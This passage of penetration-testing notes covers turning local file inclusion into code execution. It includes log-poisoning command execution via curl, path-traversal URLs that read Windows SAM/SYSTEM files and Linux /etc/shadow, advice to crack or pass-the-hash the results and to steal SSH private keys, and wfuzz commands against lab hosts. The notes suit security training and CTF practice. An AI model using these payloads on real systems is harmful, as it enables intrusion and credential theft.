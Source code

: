 * Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.
* Then request the logs via the LFI and execute your command.

```
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```

#### LFI to RCE via credentials files

* This method require high privileges inside the application in order to read the sensitive files.

**Windows version**

* First extract sam and system files.

```
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

* Then extract hashes from these files samdump2 SYSTEM SAM > hashes.txt, and crack them with hashcat/john or replay them using the Pass The Hash technique.

**Linux version**

* First extract /etc/shadow files.

```
http://example.com/index.php?page=../../../../../../etc/shadow
```

* Then crack the hashes inside in order to login via SSH on the machine.
* Another way to gain SSH access to a Linux machine through LFI is by reading the private key file, id\_rsa.
* If SSH is active check which user is being used `/proc/self/status` and `/etc/passwd` and try to access `/<HOME>/.ssh/id_rsa`.

### Automated LFI with Wfuzz

* Automate LFI Tests
* Download the `traversal.txt` file in this folder (from PayloadAllTheThings)
* Test with `wfuzz`

```
wfuzz -u "http://10.10.218.222/article?name=FUZZ" -w traversal.txt | grep 200
```

* `grep 200` for the `Ok` status code
* `w` -> the wordlist
*   `?name=FUZZ` -> the parameter you want to fuzz

    #### Resources
* https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-phpinfo

#### Wfuzz for LFI with a Cookie

```
wfuzz -u http://preprod-payroll.trick.htb/index.php?page=FUZZ -b PHPSESSID=lh8uclpbf9guo8ih3f6h58b2bn -w /opt/traversal.txt
```
